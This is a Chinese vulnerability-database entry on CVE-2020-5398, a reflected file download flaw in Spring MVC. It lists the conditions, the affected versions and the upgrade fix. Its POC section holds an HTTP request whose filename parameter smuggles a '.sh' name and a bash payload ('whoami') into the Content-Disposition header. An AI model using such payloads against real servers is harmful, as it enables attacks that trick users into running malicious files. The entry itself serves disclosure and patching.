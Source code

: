 ```yaml
---
title: 'CVE-2020-5398-Spring MVC的RFD（反射文件下载）'
date: Sat, 19 Sep 2020 11:40:22 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


#### 漏洞描述

于当地时间1月16日， Pivotal Software（Spring系列）官方发布 Spring Framework 存在 RFD（反射型文件下载漏洞）的漏洞报告，此漏洞为攻击客户端的漏洞，官方将漏洞严重程度评为高。报告指出，当响应中设置了“Content-Disposition”头且filename属性是用户可控时容易受到RFD攻击。攻击应满足以下所有条件才可成功： 1.header使用org.springframework.http.ContentDisposition来预备 2.文件名是通过ContentDisposition.Builder#filename(String) 或 ContentDisposition.Builder#filename(String, US\_ASCII)来设置。 3.文件名（包括文件名后缀）为用户可控。 4.攻击者已将下载的响应内容注入恶意命令。 攻击者可利用RFD漏洞，结合社工等方式，让用户下载一个恶意文件并执行，从而危害用户的终端安全。

#### 影响范围

Spring Framework 5.2.0 to 5.2.2，5.1.0 to 5.1.12，5.0.0 to 5.0.15

#### POC

```
GET /?filename=sample.sh%22%3B&contents=%23!%2Fbin%2Fbash%0Awhoami%27%20--dump-header%20- HTTP/1.1
Host: 192.168.248.129:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1 
```![](https://www.bylibrary.cn/wp-content/uploads/2020/09/1212.png)

#### 修复建议

请受影响的用户升级至 Spring Framework 5.2.3，5.1.13 或 5.0.16 版本。